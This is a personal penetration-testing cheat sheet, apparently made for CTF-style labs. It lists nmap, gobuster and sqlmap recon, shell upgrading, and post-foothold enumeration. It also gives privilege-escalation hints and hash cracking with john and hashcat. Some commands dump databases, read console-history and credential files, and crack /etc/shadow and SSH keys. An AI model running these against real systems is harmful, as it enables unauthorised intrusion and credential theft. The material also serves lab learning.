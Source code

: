 ## Reconaissance---------------------------------------------

##### nmap scanning

```bash
nmap -Pn -p- -T4 {ip}
nmap -A -p<ports> -T4 {ip}
```

##### directory enumeration
```bash
gobuster dir -u {ip} -w {path_wordlist} -t {no. threads} -x {strings, pdf, php, txt, etc.}
dirbuster #opens dirbuster window
```

##### checking for sql injections
```bash
sqlmap -u {weburl, http://10.10.60.252/administrator.php>} --forms --dump --dbms=mysql
sqlmap --tables -T users --dump
```

##### enum4linux (if may samba port open)
```bash
enum4linux -a <MACHINE IP>
```

## Foothold---------------------------------------------

##### connecting ssh
```bash
ssh {user}@{ip} -p {port} 
```

##### putting files in the target system
```bash
scp {path to linenum} {user}@{host}:{path} #Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```



## Foothold Enumeration---------------------------------------------

###### getting an interactive shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
##### basic enumeration after foothold

Linux
```bash
	whoami
    id
    ifconfig/ip addr
    uname -a
    ps -ef
```

Windows
```bash
    whoami
    ver
    ipconfig
    tasklist
    netstat -an
```

LinEnum

##### check files of user (and group) you landed on

```bash
find / -type f {-group/-user} {group/user} 2>/dev/null
ls -la /
```

##### check console history

```bash
cat ~/.*history | less
type C:\Users\{user}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

##### if from www-data, check db credentials
```bash
cat /var/www/html/cdn-cgi/login/db.php
```

##### check sudo-able commands
```bash
sudo -l
```
##### check root processes
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

###### pivoting to other users (if you have password)
```bash
su {user name}
```



## Privelege Escalation ---------------------------------------------

##### Weak file permissions
if /etc/shadow is readable -> crack hash (use john)
if /etc/shadow is writable -> rewrite hash (use john)
if /etc/passwd is writable -> add password (use openssl passwd)

##### Poisoning Cron jobs

##### adding PATH (for creating malicious programs)
```bash
export PATH={/tmp}:$PATH
```

##### Mysl UDF priv esc (if mysql is running on root)
https://www.exploit-db.com/exploits/1518

##### Kernel Exploits
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

## Misc

##### use gdb in checking binary files
##### pwn command for overflow

##### in cracking hashes
```bash
hashcat -m {hash algo mode} {hash file path} {wordlist path}

gpg2john {asc file} > hash
john --wordlist={wordlist file path} hash
```
https://hashcat.net/wiki/doku.php?id=example_hashes

##### in cracking ssh passkeys (given public and private keys)
```bash
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=rockyou.txt
```
https://www.abhizer.com/crack-ssh-with-john/

##### chmod permissions
1 - execute
2 - write
4 - read

##### stego
use stegcracker to find passwords on a steg-ed file
https://github.com/Paradoxis/StegCracker
use steghide to get steg-ed files
```bash
steghide extract -sf {.jpg file} 
```

## Other References---------------------------------------------

##### Root Reverse Shell Cheat sheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
##### Linux Privelege Escalation checker
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
##### Shell esscape sequences
https://gtfobins.github.io/
##### Encoder/Decoder
https://gchq.github.io/CyberChef/